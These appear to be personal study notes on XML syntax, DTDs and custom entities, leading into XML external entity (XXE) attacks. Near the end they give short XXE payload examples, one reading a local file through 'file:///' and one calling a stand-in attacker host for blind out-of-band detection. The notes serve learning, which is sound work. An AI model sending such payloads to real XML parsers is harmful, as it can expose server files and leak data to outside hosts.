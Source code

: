 # XML

## Some definitions and introductions
- [source](https://learnxinyminutes.com/docs/xml/) 
```xml
<!-- This is a comment. It must not contain two consecutive hyphens (-). -->
<!-- Comments can span
  multiple lines -->

<!-- Elements -->
<!-- An element is a basic XML component. There are two types, empty: -->
<element1 attribute="value" /> <!-- Empty elements do not hold any content -->
<!-- and non-empty: -->
<element2 attribute="value">Content</element2>
<!-- Element names may only contain alphabets and numbers. -->

<empty /> <!-- An element either consists an empty element tag… -->
<!-- …which does not hold any content and is pure markup. -->

<notempty> <!-- Or, it consists of a start tag… -->
  <!-- …some content… -->
</notempty> <!-- and an end tag. -->

<!-- Element names are case sensitive. -->
<element />
<!-- is not the same as -->
<eLEMENT />

<!-- Attributes -->
<!-- An attribute is a key-value pair and exists within an element. -->
<element attribute="value" another="anotherValue" many="space-separated list" />
<!-- An attribute may appear only once in an element. It holds just one value.
  Common workarounds to this involve the use of space-separated lists. -->

<!-- Nesting elements -->
<!-- An element's content may include other elements: -->
<parent>
  <child>Text</child>
  <emptysibling />
</parent>
<!-- Standard tree nomenclature is followed. Each element being called a node.
  An ancestor a level up is the parent, descendants a level down are children.
  Elements within the same parent element are siblings. -->

<!-- XML preserves whitespace. -->
<child>
  Text
</child>
<!-- is not the same as -->
<child>Text</child>
```
## Well-formedness and Validation
- [source](https://learnxinyminutes.com/docs/xml/) 
```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE bookstore SYSTEM "Bookstore.dtd">
<!-- Declares that bookstore is our root element and 'Bookstore.dtd' is the path
  to our DTD file. -->
<bookstore>
  <book category="COOKING">
    <title lang="en">Everyday Italian</title>
    <author>Giada De Laurentiis</author>
    <year>2005</year>
    <price>30.00</price>
  </book>
</bookstore>
```
- The DTD file (Bookstore.dtd):
```xml
<!ELEMENT bookstore (book+)>
<!-- The bookstore element may contain one or more child book elements. -->
<!ELEMENT book (title, price)>
<!-- Each book must have a title and a price as its children. -->
<!ATTLIST book category CDATA "Literature">
<!-- A book should have a category attribute. If it doesn't, its default value
  will be 'Literature'. -->
<!ELEMENT title (#PCDATA)>
<!-- The element title must only contain parsed character data. That is, it may
  only contain text which is read by the parser and must not contain children.
  Compare with CDATA, or character data. -->
<!ELEMENT price (#PCDATA)>
```
- The DTD could be declared inside the XML file itself:
```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE bookstore [
<!ELEMENT bookstore (book+)>
<!ELEMENT book (title, price)>
<!ATTLIST book category CDATA "Literature">
<!ELEMENT title (#PCDATA)>
<!ELEMENT price (#PCDATA)>
]>

<bookstore>
  <book category="COOKING">
    <title>Everyday Italian</title>
    <price>30.00</price>
  </book>
</bookstore>
```
## What are XML custom entities?

`<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>` -> any usage of the entity reference `&myentity;` = "`my entity value`"

## What are XML external entities?

ex: `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>` 
-> (file protocol in url): `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>`

-  a type of custom entity whose definition is *located outside* of the DTD
- The declaration of an external entity uses the **`SYSTEM`** keyword
- it must specify a *URL* from which the *value of the entity should be loaded*
- this is where [[concepts and defense|XXE]] arises 

## What are XML Parameter entities?
[source](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#what-are-xml-parameter-entities)

ex: `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`
  -> blind XXE using out-of-band detection
  
- XML parameter entities are a special kind of XML entity which can <mark style="background: #ADCCFFA6;">only be referenced elsewhere within the DTD</mark>.
- the **declaration** of an XML parameter entity *includes the percent character before the entity name*
  -> `<!ENTITY % myparameterentity "my parameter entity value" >`
- parameter entities are **referenced** using the *percent character instead of the usual ampersand*
  -> `%myparameterentity;`
